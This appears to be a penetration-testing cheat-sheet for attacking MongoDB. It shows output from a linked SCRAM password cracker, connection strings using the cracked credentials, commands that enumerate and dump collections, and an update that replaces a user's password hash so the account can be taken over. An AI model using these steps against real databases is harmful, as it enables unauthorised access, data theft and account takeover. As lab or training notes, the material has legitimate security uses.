 # MongoDB 27017

## [Scram Crack](https://github.com/leecybersec/scripting/blob/master/cracking/scram-crack-mongodb.py)

``` bash
$ python3 scram-crack.py 
Tried 1000 passwords
Tried 2000 passwords
Tried 3000 passwords
Tried 4000 passwords
Password found: password123
```

## Connect MongoDB

``` bash
mongo 'mongodb://admin:password123@mongodb0.examples.com'
```

``` bash
mongo --host mongodb0.examples.com --port 28015 -u "alice" -p "password123""
```

## Using MongoDB

Step 1: See all your databases:

``` bash
show dbs
```

Step 2: Select the database

``` bash
use your_database_name
```

Step 3: Show the collections

``` bash
show collections
```

This will list all the collections in your selected database.

Step 4: See all the data

``` bash
db.collection_name.find()
```

``` bash
db.collection_name.find().pretty()
```

## Find and update user

Find `user:1` in collection object

``` bash
db.objects.find({ _key: /^user:1$/ })
```

Update password for `user:1`

``` bash
db.objects.update({ _key: /^user:1$/ }, { $set: { password: "$2y$12$LMqnkbq1FpTnOzAWTgizbugAOpGJaKl0h7PVHvDraW9e0wK2SR7Zu" }})
WriteResult({ "nMatched" : 1, "nUpserted" : 0, "nModified" : 1 })
```